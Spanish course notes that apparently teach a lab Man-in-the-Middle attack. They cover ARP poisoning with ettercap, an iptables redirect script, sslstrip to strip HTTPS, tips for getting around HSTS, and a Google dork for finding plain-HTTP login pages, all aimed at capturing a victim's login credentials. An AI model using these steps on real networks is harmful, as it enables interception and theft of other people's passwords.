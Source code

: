 # FCEH_Unidad 26: Ataque Man In The Middle (MITM)



Lo primero es el iptables. Para realizar esta práctica es necesario ejecutarlo con el comando ./iptables.sh desde el directorio en el que lo hemos creado, así lograremos desviar el tráfico de la víctima. También es importante el sslstrip para las web SSL o “seguras”, de forma que pasemos ese tráfico cifrado a texto plano. Al ejecutar ambas aplicaciones debemos ver que no nos de un error.

El error de iptables más frecuente dice algo así:

```bash
iptables: No chain/target/match by that name.
iptables: Bad policy name. Run `dmesg’ for more information.
‘ptables v1.6.2: Invalid target name `MASQUERADE
Try `iptables -h’ or ‘iptables –help’ for more information.
“ptables v1.6.2: REDIRECT: Bad value for “–to-ports” option: “10000
Try `iptables -h’ or ‘iptables –help’ for more information.
```

Este error puede ser por varios motivos. El más frecuente es por escribir el iptables en Windows y pasarlo a Linux. En muchas ocasiones nos mete lo que se llama retorno de carro, unos caracteres que aunque no se vean nos causarán errores en Linux. Para evitar esto, lo mejor es escribir el iptables en Linux directamente.

También, aunque menos frecuente, es que alguno de los módulos necesarios para el iptables esté dañado o simplemente no esté. Para ver estos módulos podemos usar el comando:

```bash
lsmod | grep ip
```

Veremos todos los módulos IP del sistema que son usados por iptables, junto a otras aplicaciones, aunque pueden variar de nombre, los principales son ip_tables, iptable_filter y el nf_conntrack (o ip_conntrack). Si alguno de estos faltase, habría que ejecutar el comando:

```bash
modprobe <Módulo_que_falte>
```

Otro problema típico de esta lección es que no capturamos datos. Suponiendo que todo el proceso esté realizado correctamente, lo primero es buscar y verificar que con tráfico del puerto 80 esté funcionando, para ello en Google podemos buscar páginas no SSL (https) por ejemplo que tengan la web de acceso login.php, para ello en Google ponemos el comando siguiente:

```bash
inurl:http inurl:login.php
```

En principio este tipo de tráfico no debe dar problemas. Seguimos con las webs seguras. Para ello y forzar estas webs, podemos editar el iptables y copiar y pegar la línea que redirecciona el tráfico al puerto 10.000 y en esta segunda línea redireccionar el puerto 443 al 10.000 igual que hemos hecho con el tráfico del puerto 80.

Ya con esto muchas webs seguras deben funcionar, pero algunas seguirán sin capturar las credenciales. Esto es debido a un sistema de protección llamado HSTS, el cual mete una cabecera web al navegador de los visitantes, que una vez visitada su web, les obliga a usar el tráfico por SSL durante un tiempo determinado en dicha cabecera web. Este es un sistema relativamente reciente implantado en algunas webs, cada vez en más, para hacer las pruebas os recomiendo no visitar antes la web original o usar otro navegador diferente cuando realicéis el ataque, así no tendrá cacheada esta cabecera.

Recursos: Datos del archivo iptables.sh:

```bash

echo 1 > /proc/sys/net/ipv4/ip_forward

iptables -F
iptables -X
iptables -Z
iptables -t nat -F

iptables -P FORWARD ACCEPT
iptables -t nat -A POSTROUTING -o eth1 -j MASQUERADE
# hay que tener en cuenta que puede ser eth0, eth1, wlan0... o la red que nos de el ifconfig. 
iptables -t nat -A PREROUTING -i eth0 -p tcp --destination-port 80 -j REDIRECT --to-port 10000 #este puerto nos lo da ettercap

iptables-save > /etc/iptables.up.rules
```

Comprobar q está levantado el ip forwardin con el comando:

```
root@kali:~#  cat /proc/sys/net/ipv4/ip_forward
```
Si devuelve 1 está funcionando, si no volver a lanzar el archivo iptables.sh
### MITM

Con este ataque básicamente lo que hacemos es hacer creer a la máquina victima que somos el router, y al router que somos la máquina víctima.

### Pasos:

Tenemos una maquina virtual de Windows abierta, y levantamos un kali también. 

Hacemos un ifconfig en kali para ver que ip tenemos y red tenemos.

En Kali, dentro de *Aplicaciones* vamos a *Husmeando y envenenando* y seleccionamos el ettercap. Lo arrancamos y seguimos los siguintes pasos:

1. Dar a *Snif/Unified sniffing* y seleccionamos la red que tenemos .

2. Vamos a ver que host tenemos, así que en el menú *Hosts/Scan for host*, lo que nos dará una serie de hosts, y podemos verlos en *Host/Host list*

3. Vamos a la maquina virtual de Windows y en la consola ponemos el comando:

```bash
arp -a
```

Esto nos lista las ips de Windows. 

4. ir al menú *MIT/ARP Poisoning* y marcamos el primero, *Sniff remote connections*

5. *Star/Start snifing*

6. Esperamos un poco y volvemos a la maquina victima de win y volvemos a poner 

```bash
arp -a
```

Y deberíamos ver como las ip's han cambiado, y toma como router nuestra dirección del kali.

7. Ir de nuevo a Kali y abrir otra consola. Hacer un ls para confirmar q estamos en root y luego crear un archivo con 

```bash
nano iptables.sh
```

Y ponemos el contenido descrito anteriormente:

```bash

echo 1 > /proc/sys/net/ipv4/ip_forward

iptables -F
iptables -X
iptables -Z
iptables -t nat -F

iptables -P FORWARD ACCEPT
iptables -t nat -A POSTROUTING -o eth1 -j MASQUERADE
# hay que tener en cuenta que puede ser eth0, eth1, wlan0... o la red que nos de el ifconfig. 
iptables -t nat -A PREROUTING -i eth0 -p tcp --destination-port 80 -j REDIRECT --to-port 10000 #este puerto nos lo da ettercap

iptables-save > /etc/iptables.up.rules
```

8. Tras esto damos permisos al archvo de iptalbes:

```bash
chmod 777 iptables.sh
```

9. Ejecutamos el archivo iptalbes:

```bash 
./iptables.sh
```

10. Tas esto hay que habilitar un puerto SSL por el que redirigir el tráfico, para que las páginas con seguridad https nos dejen navegar a ellas. Esto se hace ocn una palicaión de Kali que se llama *sslstrip*, que redirige por el puerto 443 todo el tráfico de nuestro puerto 10000. Para levantarlo en la consola ponemos:

```bash
sslstrip -f -l 10000
```

11. Navegar con la maquina de Windows a una pagina como facebook y loguearse, veremos como ettercap nos da email y contraseña. 

Y así es como se monta un MITM.
